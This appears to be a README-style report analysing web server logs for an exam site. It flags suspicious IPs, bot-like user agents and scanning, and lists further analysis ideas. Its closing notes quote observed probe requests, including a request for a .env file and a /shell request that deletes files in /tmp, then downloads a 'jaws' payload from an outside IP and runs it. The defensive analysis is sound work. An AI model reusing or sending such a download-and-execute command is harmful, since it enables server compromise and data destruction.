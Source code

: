 ### BoilerExam Data Analysis Report

#### 1. **Suspicious Requests from a Specific IP**  
The IP address `52.169.249.118` was observed repeatedly attempting to access `wp-content` and other WordPress-related PHP files.  

For further details, refer to `results/malicious_ip.ipynb`.

#### 2. **Unusual User Agent: `axios/1.6.7`**  
Unlike typical user agent values such as Mac or Windows identifiers, `axios/1.6.7` exhibited unusual behavior:  
  - Consistent 5-second interval requests targeting the stats page.  

For additional insights, review `results/weird_user_agent.ipynb`.

#### 3. **Miscellaneous Data Analysis**  
Some aspects of the data analysis require a deeper review but were not fully explored due to time constraints.

For more details, refer to `results/misc.ipynb`

---

### More Ideas from my note
    
**1. Geolocation Analysis**
  - **Goal**: Determine the geographic origin of requests based on `client_ip`.
  -  **Steps**:
        1. Use an IP geolocation service (e.g., MaxMind, IP2Location) to map IPs to locations (country, city, region).
        2. Visualize user distribution with a world map or a heatmap.
        3. Identify if certain regions generate disproportionate amounts of traffic, which might indicate:
            - Legitimate user clusters.
            - Malicious activity clusters (e.g., botnets).

**~~2. User-Agent Analysis~~** [Completed]
  - **Goal**: Analyze patterns in user behavior or detect bots.
  - **Steps**:
    1. Parse the `user_agent` field to identify:
        - Browsers (e.g., Chrome, Firefox).
        - Operating systems (e.g., Windows, macOS, Linux).
        - Suspicious user agents (e.g., scripts or bots).
    2. Look for anomalies like:
        - High traffic from outdated browsers.
        - Generic or malformed user-agent strings.

**3. HTTP Status Code Analysis**
  - **Goal**: Evaluate server responses and identify issues.
  - **Steps**:
    1. Aggregate counts of `http_status` codes.
      - **200**: Successful requests.
      - **301/302**: Redirects.
      - **403/401**: Unauthorized or forbidden.
      - **404**: Not Found.
      - **500/502**: Server errors.
    2. Investigate spikes or patterns in error codes (e.g., a sudden increase in 404s may indicate a scanning attempt).
    
**4. Request Path Analysis**
  - **Goal**: Identify popular or unusual endpoints.
  - **Steps**:
    1. Analyze the most frequently accessed endpoints in the `request` column.
    2. Detect anomalies such as:
        - Repeated access to non-existent or sensitive files.
        - High traffic to specific endpoints (e.g., `/login`, `/admin`).
    3. Categorize requests into legitimate use cases (e.g., API calls, asset requests) and suspicious activity.
    
**5. Traffic Pattern Analysis**  
  - **Goal**: Identify time-based trends or anomalies.
  - **Steps**:
    1. Group requests by time intervals (e.g., hour, minute).
    2. Plot traffic patterns over time to identify:
        - Peak usage times.
        - Unexpected bursts of activity (potential DDoS attacks or bots).
    3. Compare weekdays vs. weekends or daily patterns to understand user behavior.

**~~6. Anomaly Detection~~** [Completed]
  - **Goal**: Detect unusual activity across various dimensions.
  - **Steps**:
      1. Define thresholds for "normal" behavior (e.g., requests per minute per IP).
      2. Identify outliers in:
          - Traffic volume.
          - HTTP status patterns.
          - Repeated access to specific endpoints.
      3. Highlight IPs or requests that deviate significantly from the norm.

**7. IP Reputation Check**    
  - **Goal**: Identify malicious or suspicious IPs.
  - **Steps**:
      1. Cross-check `client_ip` with known blacklists (e.g., AbuseIPDB, Spamhaus).
      2. Flag IPs with a history of malicious activity or high abuse scores.
      3. Monitor flagged IPs for recurring patterns.
    
**8. Correlate Traffic with Referrer**    
  - **Goal**: Understand how users are navigating to the site.
  - **Steps**:
    1. Analyze the `referer` column to identify:
        - Sources of traffic (e.g., search engines, direct access).
        - Suspicious or unexpected referrers (e.g., spam domains).
    2. Detect if certain referrers are driving malicious traffic.
    
**9. Resource Load Analysis**  
  - **Goal**: Measure server resource usage.
  - **Steps**:
    1. Use `request_body_bytes` to analyze the size of incoming requests.
    2. Look for:
        - Large payloads that may indicate abuse or file upload attempts.
        - Small, frequent payloads that could be characteristic of bot activity.

**10. User Behavior Analysis**
  - **Goal**: Track individual or grouped user activity patterns.
  - **Steps**:
    1. Group requests by `client_ip` to study user behavior over time.
    2. Look for:
        - Repeated requests to the same endpoints.
        - Users accessing sensitive endpoints (e.g., `/admin`, `/login`) without valid credentials.

**~~11. Bot Detection~~** [Completed]
  - **Goal**: Separate bots from legitimate users.
  - **Steps**:
    1. Identify patterns typical of bots, such as:
        - High-frequency requests.
        - Missing or generic user-agent strings.
        - Accessing non-existent or sensitive files.
    2. Develop heuristics or use machine learning to flag bot-like behavior.
    
**12. Dashboard Creation**    
  - **Goal**: Build a dashboard for real-time monitoring.
  - **Steps**:
    1. Use tools like Grafana or Kibana to visualize trends in the data.
    2. Include metrics like:
        - Active IPs.
        - Traffic by country.
        - HTTP status distribution.
        - Most accessed endpoints.

**13. Play around with the data**
  - SELECT * FROM data WHERE http_status NOT IN (200, 304, 204);
  - Only check 301
  - http status: 401 UNAUTHORIZED, 499
  - GET /robots.txt HTTP/1.1
  - GET /wp-login.php HTTP/1.1
  - GET /ads.txt HTTP/1.1
  - GET /.env HTTP/1.1
  - ~~Censysinspect~~
  - ~~PRI * HTTP/2.0, 400~~
      - 167.94.138.41
  - OPTIONS /submissions HTTP/2.0
  - GET /shell?cd+/tmp;rm+-rf+*;wget+ 132.145.21.30/jaws;sh+/tmp/jaws HTTP/1.1302154 Hello, world
